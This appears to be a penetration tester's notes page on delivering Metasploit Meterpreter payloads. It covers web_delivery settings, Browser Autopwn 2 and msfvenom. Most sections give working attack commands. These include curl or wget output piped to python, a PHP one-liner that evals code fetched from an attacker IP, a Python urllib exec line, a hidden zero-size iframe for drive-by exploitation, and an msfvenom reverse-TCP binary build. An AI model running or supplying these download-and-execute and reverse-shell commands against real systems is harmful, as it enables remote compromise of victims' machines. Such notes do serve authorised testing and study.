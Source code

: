 ```yaml
---
title: "Meterpreter Delivery Methods"
date: 2021-10-09T15:14:56-05:00
draft: false
---
```


# Normal
Via exploit.

# Executing a Command that Downloads and Runs

## References

[Web Delivery module](https://www.rapid7.com/db/modules/exploit/multi/script/web_delivery)

[Example with PHP](https://www.offensive-security.com/metasploit-unleashed/web-delivery/)

## Info
This will stand up a server with a specific URL that will download valid Python/PHP/etc. that will eventually download and execute your payload of choice.  So - you can use the URL to get a copy of valid Python/PHP/etc. code which you could then embed in another program.  Or, you can use curl/language-specific downloader to grab the URL at runtime.

Each of these will provide a command line you can use to run them.  You can also pipe curl output to the interpreter generally.

## Starting Up

    use exploit/multi/script/web_delivery
    set TARGET 1
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.80.128
    exploit

## Curl and Wget Method

    curl http://.....  | python

    wget -O - http://... | python

Or, if using HTTPS:

    curl -k https://.....  | python

    wget --no-check-certificate -O - http://... | python

## Available Targets

* 0: Python
* 1: PHP
* 2: PSH
* 3: Regsvr32
* 4: Pubprn
* 5: PSH (binary)
* 6: Linux

## Target 0 - Python
These will spawn a background meterpreter.  The command below works, but so does the one the script gives you on startup.

    import urllib;exec(urllib.URLopener().open("http://..."))

## Target 1 - PHP
For target 1 (PHP) the following will execute this on the remote host.  However, it won't execute in the background.

    php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.80.128:8080/alK3t3tt'));"

With HTTPS, on newer php versions, you may need

    php -d allow_url_fopen=true -r "eval(file_get_contents('https://127.0.0.1:8080/2FkAulqJIVBwD', false, stream_context_create(array("ssl"=>array("verify_peer"=>false, "verify_peer_name"=>false)))));"

## Target 3 - Regsvr32
This will give you a command line that uses scrobj.dll to interpret a downloaded scriptlet.  The scriptlet downloads a further powershell-based executable.

## Target 4 - Pubprn
This seems pretty similar to target 3, but uses the pubprn.vbs script to kick off execution.

## Target 5 - PSH (binary)
Downloads and executes a binary via powershell.  Not sure if this saves to disk or not...

## Target 6 - Linux
This downloads a binary to disk and executes it.

# Office Macro
[Offensive Security Post on Building an Infected Macro](https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/)

# Browser Autopwn 2
[Rapid7 Post on Browser Autopwn](https://blog.rapid7.com/2015/07/15/the-new-metasploit-browser-autopwn-strikes-faster-and-smarter-part-1/)

    use auxiliary/server/browser_autopwn2
    set INCLUDE_PATTERN ...
    set HTMLContent "Loading!  Please wait..."
    set MaxExploitCount 30

Potential include patterns - "(windows|firefox)"

Embed with:
    <iframe src="..." height="0px" width="0px"></iframe>

# Existing Meterpreter Session
[Post Exploitation Multi Meterpreter Inject](../meterpreter_post_exploitation#Multi_Meterpreter_Inject)

# Creating Meterpreter Binaries

https://netsec.ws/?p=331 Cheat Sheet

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=... LPORT=... -f elf -o shell.elf

Using `PrependFork=true` will background it.

